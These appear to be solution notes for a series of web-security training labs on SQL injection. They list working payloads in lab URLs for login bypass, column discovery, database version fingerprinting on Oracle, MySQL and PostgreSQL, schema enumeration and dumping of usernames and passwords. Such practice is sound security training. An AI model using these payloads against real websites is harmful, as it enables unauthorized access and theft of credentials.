 # 1 SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

https://ac691f8f1f1ade0ec09556480096009a.web-security-academy.net/filter?category=Food+&+Drink' or '1'='1


# 2 SQL injection vulnerability allowing login bypass

uname -> administrator
pass -> pass' or '1'='1


# 3 SQL injection UNION attack, determining the number of columns returned by the query

https://ac101f141ffe5241c02925c900cd00fb.web-security-academy.net/filter?category=Corporate+gifts' union select null,null,null--

# 4 SQL injection UNION attack, finding a column containing text

https://acc41f9a1e1d0567c0443b83007e0005.web-security-academy.net/filter?category=Corporate+gifts' union select null,'x3tSLc',null--

# 5 SQL injection UNION attack, retrieving data from other tables

https://acd91f8d1ed49ccdc0f3100900ea0060.web-security-academy.net/filter?category=Accessories' union select username,password from users--

# 6 SQL injection UNION attack, retrieving multiple values in a single column

https://acab1f321e54abdec0327ab800b70008.web-security-academy.net/filter?category=Corporate+gifts' union select null,username || '~' || password FROM users----

# 7 SQL injection attack, querying the database type and version on Oracle

https://ace01f1b1fe49816c0a468ad00de0029.web-security-academy.net/filter?category=Gifts%27+union+select+banner,+NULL+FROM+v$version--

# 8 SQL injection attack, querying the database type and version on MySQL and Microsoft

https://ac181f9e1e461c79c05e5cd700c9009a.web-security-academy.net/filter?category=Tech+gifts' union select @@version,null-- -



# 9 SQL injection attack, listing the database contents on non-Oracle databases

determine database version (PostgreSQL 11.15 (Debian 11.15-1.pgdg90+1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 6.3.0-18+deb9u1) 6.3.0 20170516, 64-bit)

https://ac151f861ff1f580c06e17d600c3003d.web-security-academy.net/filter?category=Gifts' union select version(),null-- -

determine other tables in database

https://ac151f861ff1f580c06e17d600c3003d.web-security-academy.net/filter?category=Gifts' union SELECT table_name,null FROM information_schema.tables-- -

get column names from table

https://ac151f861ff1f580c06e17d600c3003d.web-security-academy.net/filter?category=Gifts' union SELECT column_name,null FROM information_schema.columns where table_name='users_srqfep'-- -

	password_mpzlug

	username_pihapd
	
Get data from table

https://ac151f861ff1f580c06e17d600c3003d.web-security-academy.net/filter?category=Gifts' union SELECT username_pihapd,password_mpzlug FROM users_srqfep-- -

